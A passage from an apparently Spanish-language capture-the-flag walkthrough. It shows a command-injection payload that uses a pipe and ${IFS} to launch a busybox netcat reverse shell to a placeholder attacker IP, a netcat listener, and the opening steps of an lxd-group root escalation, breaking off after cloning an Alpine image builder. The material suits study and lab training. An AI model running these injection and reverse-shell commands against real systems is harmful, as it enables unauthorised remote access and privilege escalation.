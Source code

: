 
Antes de ejecutar esta Reverse Shell, tenemos que modificarla un poco igual que hicimos antes, tirando del pipe ( | ) y reemplazando los espacios por ${IFS}. 

```
|busybox${IFS}nc${IFS}[IPAtacante]${IFS}[Puerto]${IFS}-e${IFS}bash
```

Antes de ejecutar el comando en el sitio web, nos ponemos en escucha por netcat por el puerto especificado

```bash
nc -nlvp [Puerto]
```

Ya estando en escucha por netcat, si ahora ejecutamos el comando de la Reverse Shell, y hacemos un tratamiento de la TTY como hicimos antes (esto es opcional), veremos que estamos como el usuario "jackshephard" de forma que hemos conseguido elevar nuestros privilegios. 
 

![Imagen046](46.jpeg)


Al ejecutar el comando id vemos además algo muy interesante. Este usuario pertenece al grupo lxd. 
lxd se utiliza para crear máquinas virtuales ligeras llamadas contenedores. El grupo lxd permite que un usuario utilice lxd sin necesidad de ser root, de forma que puede crear y controlar contenedores sin necesitar permisos de root. Por otra parte, sabemos que los contenedores pueden manipularse para obtener acceso completo al sistema. ¿Cómo? Pues vamos a verlo a continuación

Para escalar el privilegio de root de la máquina host, debemos crear una nueva imagen para lxd, por lo que debemos realizar las siguientes acciones:

- En nuestra máquina de atacante, vamos a descargar build-alpine a través del repositorio de git.
- Ejecutamos el script build-alpine que creará la última imagen de Alpine como un archivo comprimido; este paso debe ser ejecutado por el usuario root
- Transferimos el archivo a la máquina host
- Importamos la imagen lxd
- Iniciamos la imagen dentro de un nuevo contenedor
- Montamos el contendor dentro del directorio /root


En nuestra máquina de atacante, descargamos la compilación alpina usando el repositorio de Github

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

```bash
cd lxd-alpine-builder
```

